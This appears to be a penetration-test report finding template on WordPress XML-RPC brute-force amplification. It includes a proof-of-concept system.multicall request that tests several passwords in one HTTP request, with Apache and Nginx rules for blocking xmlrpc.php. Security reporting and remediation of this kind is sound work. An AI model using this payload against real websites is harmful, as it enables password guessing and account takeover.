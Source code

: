 ```yaml
---
category: "APP-VUL"
cvss: "7.5"
report_on_external_network_test: true
---
```

### WordPress XML-RPC API Brute Force Amplification Attack
The WordPress XML-RPC application programming interface (API) is enabled on the affected website{s||} and is available at the following URL{s||}, which {are||is} vulnerable to brute force amplification attacks against user credentials:

http://SITE/xmlrpc.php

When a specially crafted request with multiple combinations of the same username and different passwords is sent, this interface will display whether the credentials are valid. {==OPTION==}Please note that as it is possible to obtain a list of valid WordPress usernames due to a usernames enumeration attack (see section {==XREF==}), an attacker can use this interface to launch a brute-force attack against users' passwords.

The following proof of concept example shows how an attacker can use the default system.multicall method to brute force WordPress logins. In the following example, two incorrect username/password combinations were sent. However, this was tested with up to 10 simultaneous credentials.

POST {==URL==}
```
<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall><methodName>system.multicall</methodName>
<params>
<param>
<value>
<array><data>
    <value><struct>     <member><name>methodName</name><value><string>wp.getCategories</string></value></member>
        <member><name>params</name><value><array><data>
            <value><string>dionach</string></value>
            <value><string>invalid-password</string></value>
        </data></array></value></member>
    </struct></value>
    <value><struct>        <member><name>methodName</name><value><string>wp.getCategories</string></value></member>
        <member><name>params</name><value><array><data>
            <value><string>dionach</string></value>
            <value><string>{==masked valid password==}</string></value>
        </data></array></value></member>
    </struct></value>
</data></array></value></param>
</params></methodCall>
```
The server response indicates that the credentials supplied in the first method were invalid, while the credentials in the second method were valid.

{==Server response showing success and failure==}
Attackers can leverage the system.multicall method to attempt to guess a large number of passwords with just one HTTP request against the WordPress application, bypassing security tools that are designed to look for and block brute force attempts.

Please note that other default WordPress methods can be used to initiate this attack.
#### Impact: Medium
An attacker who manages to obtain valid credentials could gain access to user accounts and the personal information tied to them. Furthermore, if the credentials belong to an administrative user, the attacker could take administrative control of the website.
#### Likelihood: Medium
An attacker will require knowledge of usernames{==OPTION:, which is possible due to the user enumeration issue (see section XREF)==}. Users would also need to use fairly weak passwords, such as dictionary words or common names.
#### Recommendation
If the XML-RPC interface is not used, consider disabling it. This can be done either via WordPress plugins or by using the web server to restrict access to the "xmlrpc.php" file.

{==OPTION Apache:==} For Apache, the following configuration will deny access to the "xmlrpc.php" file:

```
<Files xmlrpc.php>
Deny from all
</Files>
```

{==OPTION Nginx:==} For Nginx, the following configuration will deny access to the "xmlrpc.php" file:

```
location = /xmlrpc.php {
   deny all;
   access_log off;
   log_not_found off;
}
```

Alternatively, plugins such as WordFence allow configuring how many attempts are allowed before blocking such requests.

Finally, the use of the system.multicall method can be blocked, for example by using a web application firewall that has this functionality. However, note that this may not stop an attacker from using single method requests to bypass other brute force protections such as CAPTCHA mechanisms.